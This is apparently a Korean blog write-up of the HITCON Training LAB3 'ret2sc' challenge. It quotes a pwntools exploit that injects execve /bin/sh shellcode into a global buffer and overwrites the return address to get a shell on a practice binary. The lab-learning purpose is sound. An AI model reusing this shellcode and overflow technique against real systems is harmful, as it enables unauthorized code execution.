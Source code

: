 
## **문제 확인**

HITCON LAB3 문제를 확인해보자.
해당 파일은 /tmp/hitcon 디렉토리 안에 위치해 있다.
ret2sc.c 소스를 보면 아래와 같이 가장 기초적인 문제임을 알 수 있다.

![full](/assets/images/ret2sc.c.png)

<br><br>
해당 문제를 검색해 보면 다음과 같은 풀이집이 있다. ([https://ii4gsp.tistory.com/97](https://ii4gsp.tistory.com/97)). 
아래는 해당 풀이집에서 발췌한 pwntools를 이용한 exploit code이다.
```python
from pwn import *

p = process('/home/ii4gsp/HITCON-Training/LAB/lab3/ret2sc')
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
name = 0x804a060

p.recvuntil(':')
p.sendline(shellcode)

payload = ''
payload += '\x90' * 32
payload += p32(name)

p.recvuntil(':')
p.sendline(payload)

p.interactive()
```
<br>
위의 python 코드를 보면 ":" 문자열이 나올때까지 출력을 읽어(recvuntil) 특정 값을 쓰는(sendline) 동작을 2번 반복한 다음 마지막으로 interactive() 함수를 호출한다.

위의 exploit code에서 ret2sc 패스만 수정하여 실행해보면 아래와 같이 정상적으로 shell을 획득하는 것을 볼 수 있다.
![full](/assets/images/ret2sc.png)
